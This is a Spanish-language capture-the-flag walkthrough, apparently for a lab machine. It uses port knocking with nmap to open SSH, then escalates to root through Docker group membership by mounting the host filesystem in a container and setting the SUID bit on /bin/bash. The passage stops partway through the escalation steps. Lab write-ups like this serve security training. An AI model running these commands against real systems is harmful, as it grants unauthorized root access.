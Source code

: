 En este caso la idea seria conectarse al puerto 22 (es una suposicion). El problema es que este puerto esta cerrado. 
La idea de la tecnica de **Port Knocking** es que si el atacante golpea unos puertos en un orden definido, por
iptables se puede exponer o bloquear un puerto.

```bash
nmap -p3456,8234,62431,22 --open -T5 -v -n 10.10.10.83 -r
```

> [!] NOTAS: El argumento `-r` es para decir a NMAP de scanear los puertos en este mismo orden

Lanzando el comando multiples veces, NMAP nos reporta ahora que el puerto 22 esta ya abierto.
Lo que se puede hacer es, de seguida despues del **Port Knocking** con nmap, lanzar un comando
ssh a la maquina.

```bash
nmap -p3456,8234,62431,22 --open -T5 -v -n 10.10.10.83 -r && ssh prometheus@10.10.10.83
```

Perfecto se nos pregunta por una contraseña **Y PA DENTRO**

En este momento ya se puede ver la flag `user.txt` y Podemos pasar a la fase de escalacion de privilegios.
## Escalacion de privilegios {-}

### Enumeracion del usuario en la maquina victima {-}

```bash
whoami
id
```

Ya es sufficiente aqui porque ya se puede ver quel usuario esta en el grupo Docker.

### Escalacion de privilegios con Docker {-}

1. Checkear las imagenes Docker existentes

    ```bash
    docker ps
    ```

1. Utilizar una imagen existente para crear un contenedor y **mountarle** la raiz del systema en el contenedor

    ```bash
    docker run --rm -it -v /:/mnt rodhes bash
    cd /mnt/root/
    cat root.txt
    ```

1. Escalar privilegios en la maquina real

    - en el contenedor

        ```bash
        cd /mnt/bin
        chmod 4755 bash
        exit
        ```
    